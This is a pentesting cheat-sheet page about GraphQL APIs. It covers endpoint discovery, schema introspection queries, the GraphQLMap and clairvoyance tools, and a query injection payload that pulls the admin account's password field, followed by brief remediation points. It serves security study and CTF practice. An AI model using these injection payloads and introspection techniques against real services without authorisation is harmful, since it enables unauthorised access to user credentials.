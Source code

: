 # GraphQL

[![graphql](../../../../cybersecurity/_badges/hacktricks/graphql.svg)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQL](https://en.wikipedia.org/wiki/GraphQL) (Graph Query Language) is an open-source query language for APIs. It's used by GitHub, Shopify, and Facebook internally.

* [GraphQL Documentation](https://graphql.org/) <small>(⛪)</small>
* [GitHub](https://github.com/graphql/graphql-js) <small>(19.8k ⭐)</small>

It was designed to provide a more efficient, powerful, and flexible alternative to traditional REST APIs. It solves a problem of REST APIs which is under- and over-fetching.

There is only one endpoint. We can perform multiple queries in one request. Look for: `/api/graphql`, `/graphql`, `/graphiql`, etc.

Look into the JavaScript Source Code and you may find if it's used.
</div><div>

 To query the `id,username` of the `user` with `id=123`:

```graphql
query {
  # if available, list all users as "users"
  users: user { id, username }
  # query one user
  user(id: 123) {
    id
    username
  }
}
```
</div></div>

<hr class="sep-both">

## GraphQLMap

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQLMap](https://github.com/swisskyrepo/GraphQLmap) <small>(1.3k ⭐, 2023 🪦)</small> was developed by the owner of PayloadsAllTheThings. It allows us to send GraphQL queries to an endpoint rather easily. It also provide a few utilities.

```shell!
$ pipx install git+https://github.com/swisskyrepo/GraphQLmap
$ pipx runpip graphqlmap install requests
$ graphqlmap -h
```

It can dump the schema and present it in a nice representation.
</div><div>

A basic usage:

```shell!
$ graphqlmap -u 'https://example.com/api/graphql' --headers '{"Authorization": "Bearer ..."}' --method POST
prompt> query { account(username: "admin") { id, username, password } }
```
</div></div>

<hr class="sep-both">

## Introspection 🗺️

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)

Introspection refer to dumping the API schema. It's often disabled in production.

<div class="row row-cols-lg-2"><div>

#### Introspection — Manual Queries

Each object has a type. Each type has attributes. The type may have a constructor with arguments that are required to query an object.

```text!
{__schema{types{name}}}
{__schema{types{name,fields{name}}}}
{__schema{types{name,fields{name},description}}}
{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

After identifying the types and their arguments, we can query them:

```text!
{MyType{field1, field2}}
{MyType(arg:value){field1, field2}}
```

➡️ When errors are enabled, you can receive suggestions from GraphQL like a type or attribute name that is similar to your input.
</div><div>

#### Introspection — Graphical WebUI

[GraphQL Voyager](https://graphql-kit.com/graphql-voyager/) <small>(7.7k ⭐)</small> can take the input from your introspection query or from tools such as [clairvoyance](#introspection--clairvoyance) and display it as a graph.

<br>

#### Introspection — clairvoyance

[clairvoyance](https://github.com/nikitastupin/clairvoyance) <small>(1.0k ⭐)</small> can be used to dump the schema:

```shell!
$ pipx install git+https://github.com/nikitastupin/clairvoyance
$ clairvoyance 'https://example.com/api/graphql' -o schema.json
```

</div></div>

<hr class="sep-both">

## GraphQL Injections

<div class="row row-cols-lg-2"><div>

#### GraphQL Query Injection

[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

Much like SQL, you can manipulate a query if user input is added directly to the query without any sanitization.

```graphql
query {
  product(name: "$prodname") {
    id
    name
    description
  }
}
```

The normal expected input would be:

```js!
prodname = "toy"
```

But a malicious user could use the code below. We use `#` to avoid handling the rest of the request.

```js!
username = 'toy"){\nid\n}\naccount(username:"admin"){\nid,username,password\n}#'
```

Another alternative would be to close the `query{` by using `\n}`.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [How to exploit GraphQL endpoint: introspection, query, mutations & tools](https://www.yeswehack.com/learn-bug-bounty/how-exploit-graphql-endpoint-bug-bounty)
* [pentest101](https://escape.tech/blog/pentest101/)
* [inigo](https://inigo.io/blog/graphql_injection_attacks)
* InQL
</div><div>

Remediation

* RateLimit alone is not very useful as multiple queries in one request
* SizeLimit should be enforced to block long requests
* Access Control should be implemented (ex: JWT)
* The server should validate types and values
</div></div>